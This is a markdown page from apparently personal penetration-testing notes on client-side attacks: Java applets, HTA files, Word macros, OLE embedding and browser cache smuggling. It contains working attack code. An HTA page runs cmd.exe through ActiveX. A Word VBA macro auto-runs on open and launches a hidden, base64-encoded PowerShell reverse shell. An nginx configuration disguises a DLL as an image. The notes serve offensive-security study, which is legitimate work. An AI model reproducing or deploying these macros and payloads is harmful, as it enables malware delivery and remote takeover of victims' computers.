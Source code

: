 # Java Signed Applets Attack

Automatic Java code execution though applet when visiting a page having Java enabled on the browser
![](../../zzz_res/attachments/java-applet-attacks.png)

---

# HTML Applications Attack (.hta pages)

If a file is created with the extension of .hta instead of .html , Internet Explorer will automatically interpret it as a HTML Application and offer the ability to execute it using the `mshta.exe` program.

>[!tip]
>The purpose of HTML Applications is to allow arbitrary execution of applications directly from Internet Explorer, rather than downloading and manually running an executable. Since this clashes with the security boundaries in Internet Explorer, an HTML Application is always executed outside of the security context of the browser by the Microsoft-signed binary `mshta.exe`.

```html
<html>
<head>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
self.close();
</script>
</body>
</html>
```

![](../../zzz_res/attachments/hta-attack-1.png)

![](../../zzz_res/attachments/hta-attack-2.png)

We can also use [msfvenom](../Tools/msfvenom.md) in order to [generate malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages) and gain a reverse shell from the victim visitor.

---

# Microsoft Word - Macros

Macros can be written from scratch in **Visual Basic for Applications** (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host.
Since Office macros are not executed automatically, we must make use of two predefined procedures, namely the `AutoOpen` procedure, which is executed when a new document is opened and the `Document_Open` procedure, which is executed when an already-open document is re-opened.
Both of these procedures can call our custom procedure and therefore run our code.

>[!warning]
>Only `.doc` and `.docm` supports Macro. Avoid using .docx for this kind of attack

```visual-basic
Sub AutoOpen()
   MyMacro
End Sub

Sub Document_Open()
   MyMacro
End Sub

Sub MyMacro()
   Dim Str As String
   '
   ' 255 limit string bypass for the Reverse Shell
   '
   Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
   Str = Str + "QB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQB"
   Str = Str + "TAHQAcgBlAGEAbQAoACwAWwBDAG8AbgB2AGUAcgB0AF0AOgA6A"
   Str = Str + "EYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAEg"
   Str = Str + "ANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEATAAxAFgANgAyACsAY"
   Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
   ...
   Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
   Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
   Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
   Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"
   Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
   Str = Str + "QA="
   
   CreateObject("Wscript.Shell").Run Str
End Sub
```

---

# Microsoft Word - Object Linking and Embedding

Scenario: Embed a Windows batch file inside a Microsoft Word document

![500](../../zzz_res/attachments/ole-attack-1.png)

![500](../../zzz_res/attachments/ole-attack-2.png)

![500](../../zzz_res/attachments/ole-attack-3.png)

>[!warning]
>When files are downloaded from the web, they are opened in "**Protected View**". In order to make them effectively working, users have to exit from the mode clicking on the "Enable editing" button. If Publisher is installed it is possible to perform the same attack over publisher, where protected view does not exists.
![](../../zzz_res/attachments/protected-view.png)

---

# Browser Cache Smuggling

It is possible to deliver malware or any other file to victims by exploiting how browsers caches images and static resources. This technique is called Browser Cache Smuggling. [^browser-cache-smuggling]

[^browser-cache-smuggling]: [Aurélien Chalot - Browser Cache Smuggling](../../Readwise/Articles/Aurélien%20Chalot%20-%20Browser%20Cache%20Smuggling.md)

Configure the server this way:
```nginx
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	root /var/www/html;
	index index.html index.htm index.nginx-debian.html;
	server_name _;

	# Adding the HTTP header TAG used to find the real DLL
	location /calc.dll {
		# Override the mime type
		types { } default_type image/jpeg;
		add_header Tag DLLHERE;
	}
}
```

---

# Tools

- [Generating malicious .hta pages](../Tools/msfvenom.md#Generating%20malicious%20.hta%20pages)
- BeEF